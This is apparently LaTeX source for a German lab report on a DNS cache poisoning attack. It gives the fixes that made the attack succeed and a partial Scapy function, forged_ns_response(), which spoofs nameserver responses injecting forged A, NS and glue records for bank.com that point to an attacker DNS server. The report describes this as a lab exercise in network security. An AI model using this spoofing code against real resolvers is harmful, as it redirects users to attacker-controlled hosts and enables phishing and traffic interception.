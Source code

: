\documentclass[10pt,a4paper]{article}
\begin{document}
Nach mehreren weiteren Versuchen war das \glqq injecten\grqq\ eines NS-Records letzendlich möglich. Der Grund dafür lag in mehreren kleineren Fehlern.
\begin{itemize}
	\item[1.] Bei unseren vorherigen Antworten, haben wir keine vollständige Antwort gesendet, sondern lediglich welcher NS-Server für die Domain zuständig ist.
	\item[2.] Die Flag für \glqq recursion desired\grqq\ (rd) wurde auf den Wert 1 gesetzt um die Anfrage zu spiegeln. Da im Request bereits eine rekursive Auflösung der IP angefragt wurde, musste dieses Verhalten ebenfalls vom Angreifer gespiegelt werden.
\end{itemize}

\section{Verbesserungen im Code}
Durch die aufgezählten Veränderungen, ergab sich auch ein leicht anderer Source-Code für die die Funktion \emph{forged\_ns\_response()}. Die geänderten Codezeilen werden in folgendem Listig aufgezählt. Aufgrund der Vergleichbarkeit werden die unveränderten Codezeilen nicht dargestellt.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(

        ...
        
        rd=1,  # Mirror request flag

        ...

        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=DNSRR(rrname=target_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL),
        ns=DNSRR(rrname=victim_base_domain, type='NS', rdata="forged-ns.bank.com",
        	ttl=MAX_TTL),
        ar=DNSRR(rrname="forged-ns.bank.com", type='A', rdata=attacker_dns_ip,
        	ttl=MAX_TTL)
    )
    
    return response
\end{lstlisting}
\end{center}
Durch die gezeigten Änderungen waren wir letztendlich in der Lage einen gefälschten NS-Record in den Cache des Victim-DNS zu schleusen und somit alle Subdomains unter unsere Kontrolle zu bringen wie auch im folgenden Bildern zu sehen ist.

\begin{figure}[h]
	\centering
	\texttt{[image: part1.jpg]} 
	\texttt{[image: part2.jpg]} 
\end{figure}
\end{document}
